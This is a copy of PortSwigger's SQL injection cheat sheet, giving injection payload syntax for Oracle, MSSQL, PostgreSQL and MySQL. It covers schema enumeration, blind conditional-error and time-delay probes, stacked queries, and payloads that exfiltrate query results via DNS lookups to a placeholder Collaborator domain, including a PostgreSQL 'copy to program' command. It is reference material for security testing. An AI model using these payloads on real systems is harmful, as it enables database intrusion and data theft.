 From: https://portswigger.net/web-security/sql-injection/cheat-sheet

SQL injection cheat sheet

## String concatenation
    Oracle 	        'foo'||'bar' 
    Microsoft       'foo'+'bar' 
    PostgreSQL      'foo'||'bar' 
    MySQL 	        'foo' 'bar' [Note the space between the two strings] 
                    CONCAT('foo','bar') 

## Substring
    Oracle 	        SUBSTR('foobar', 4, 2) 
    Microsoft       SUBSTRING('foobar', 4, 2) 
    PostgreSQL      SUBSTRING('foobar', 4, 2) 
    MySQL 	        SUBSTRING('foobar', 4, 2) 

## Comments
    Oracle 	        --comment 
    Microsoft       --comment 
                    /*comment*/ 
    PostgreSQL      --comment 
                    /*comment*/ 
    MySQL 	        #comment 
                    -- comment [Note the space after the double dash] 
                    /*comment*/ 

## Database version
    Oracle 	        SELECT banner FROM v$version
                    SELECT version FROM v$instance
    Microsoft       SELECT @@version
    PostgreSQL      SELECT version()
    MySQL 	        SELECT @@version

## Database contents
    Oracle          SELECT * FROM all_tables
                    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    Microsoft       SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    PostgreSQL      SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    MySQL           SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

## Conditional errors
    Oracle          SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
    Microsoft       SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END 
    PostgreSQL      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
    MySQL           SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

## Batched (or stacked) queries
    You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
    Oracle          Does not support batched queries.
    Microsoft       QUERY-1-HERE; QUERY-2-HERE
    PostgreSQL    	QUERY-1-HERE; QUERY-2-HERE
    MySQL 	        QUERY-1-HERE; QUERY-2-HERE

    Note
    With MySQL, batched queries typically cannot be used for SQL injection. 
    However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
    You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
    Oracle          dbms_pipe.receive_message(('a'),10)
    Microsoft       WAITFOR DELAY '0:0:10'
    PostgreSQL      SELECT pg_sleep(10)
    MySQL           SELECT sleep(10)

## Conditional time delays
    You can test a single boolean condition and trigger a time delay if the condition is true.
    Oracle          SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
    Microsoft       IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
    PostgreSQL      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
    MySQL           SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
            
## DNS lookup
    You can cause the database to perform a DNS lookup to an external domain. 
    To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that 
    you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

    **Oracle** 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup.
                The vulnerability has been patched but there are many unpatched Oracle installations in existence:
                         SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

                The following technique works on fully patched Oracle installations, but requires elevated privileges:
                        SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

    **Microsoft**       exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
    **PostgreSQL**      copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
    **MySQL**           The following techniques work on Windows only:
                        LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
                        SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
                    
## DNS lookup with data exfiltration

    You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. 
    To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack,
    and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

    **Oracle** 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
    **Microsoft**     declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
    **PostgreSQL**    create OR replace function f() returns void as $$
                      declare c text;
                      declare p text;
                      begin
                      SELECT into p (SELECT YOUR-QUERY-HERE);
                      c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
                      execute c;
                      END;
                      $$ language plpgsql security definer;
                      SELECT f();
    **MySQL**         The following technique works on Windows only:
                      SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
